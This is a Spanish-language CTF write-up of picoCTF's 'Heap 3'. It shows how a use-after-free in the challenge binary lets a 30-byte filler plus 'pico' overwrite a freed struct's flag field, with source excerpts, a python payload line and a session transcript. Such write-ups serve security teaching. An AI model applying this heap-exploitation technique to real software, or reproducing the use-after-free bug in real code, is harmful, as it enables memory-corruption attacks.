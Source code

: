 # Heap 3

Este ejercicio nos da un programa y su código fuente. El programa ofrece las siguientes opciones:

```c
./chall

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice:
```

La primera opción imprime un valor y su dirección en memoria. La segunda permite guardar un objeto en el heap usando `malloc`:

```c
char* alloc = malloc(size);
printf("Data for flag: ");
fflush(stdout);
scanf("%s", alloc);
```

Existe una opción para liberar la memoria de `x`:

```c
case 5:
    free_memory();
    break;
```

```c
void free_memory() {
    free(x);
}
```

Aquí ocurre algo importante: el programa permite liberar el chunk de memoria donde está el valor de `x` y luego permite escribir un nuevo valor en el heap. Esto significa que podemos sobrescribir el contenido anterior. Al liberar el chunk que contiene la palabra "bico", el espacio queda marcado como libre, y si pedimos un nuevo `malloc`, se usará ese mismo espacio.

El objetivo del ejercicio es cambiar el valor de `bico` a `pico`:

```c
void check_win() {
  if (!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
}
```

Entonces, para resolver este ejercicio:

1. Liberamos el chunk de `x`, quedando libre.
2. Escribimos en el heap con `malloc`.
3. Imprimimos la flag con la opción correspondiente.

El objeto que se inserta en el heap es del tipo `object`:

```c
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

object *x;
```

Para sobrescribir el campo `flag`, debemos introducir 30 bytes (10+10+10) para llenar `a`, `b` y `c`, seguidos por `"pico"`.

Probamos con:

```bash
python2 -c 'print ("A" * 30 + b"pico")'
```

Salida:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico
```

Interacción con el binario:

```c
./chall

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x138166ce  ->   bico
+-------------+-----------+

Enter your choice: 5

Enter your choice: 2
Size of object allocation: 40
Data for flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x138166ce  ->   pico
+-------------+-----------+

Enter your choice: 4
YOU WIN!!11!!
picoCTF{SECRETO}
```

¡Tenemos la flag!
